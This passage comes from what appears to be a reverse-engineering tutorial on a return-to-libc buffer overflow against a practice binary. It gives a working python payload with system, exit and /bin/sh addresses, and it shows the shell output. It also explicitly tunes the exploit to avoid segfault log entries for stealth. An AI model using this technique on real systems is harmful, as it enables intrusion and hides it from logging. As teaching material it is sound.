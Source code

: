     rev_eng_series/post_14$ cat exploit.txt - | ./defeat 
    Before calling func

    whoami
    adwi

    who
    adwi     tty7         2019-03-03 07:51 (:0)
    
    ls
    defeat defeat.c  exploit.txt

Awesome! So, we just got a proper working shell!

### Is that it?

I guess not. 

Let us close that shell which we got by exploiting the program. You type in **Ctrl+D** or **Ctrl+C**, the program won't end peacefully. It **SegFaults**. 

Yes, we got a shell. But if the program segfaults, that probably goes into the system log. This leaves footprints of this program getting exploited. 

We have to make our exploit as **stealthy** as possible. 

We have to do something to so that the program doesn't Segfault after we close that shell. 

A possible solution: Now, **system** is trying to return to **0x63636363** and that is why the program is SegFaulting. We can instead make it return to **exit** function, which will make sure the program terminates peacefully. 

Let us find **exit**'s address the same way we found **system**'s. Run **defeat** once using gdb and grab all required details. 

* **libc_address** = **0xf7df3000**
* **exit_address** = **0xf7e219d0**

The **exit_offset** = 190928

With that, let us run the **defeat** program normally and find out **exit**'s address. **exit_address** = **0xf7e219d0** . Though the above address and this is same, it might vary. So, finding the offset and then calculating the address without gdb is important. 

Now, the following is our new exploit payload: 

    <          'a' - 108 bytes            ><  'b' - 4 bytes  ><system_address -4 bytes><exit_address - 4 bytes><binsh_address>

Let us copy the exploit into **exploit.txt** . 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xdd\xe2\xf7' + '\xd0\x19\xe2\xf7' + '\x0b\xea\xf4\xf7'" > exploit.txt
    
Let us run this exploit and see if it works or not: 

    rev_eng_series/post_14$ cat exploit.txt - | ./defeat Before calling func

    whoami
    adwi
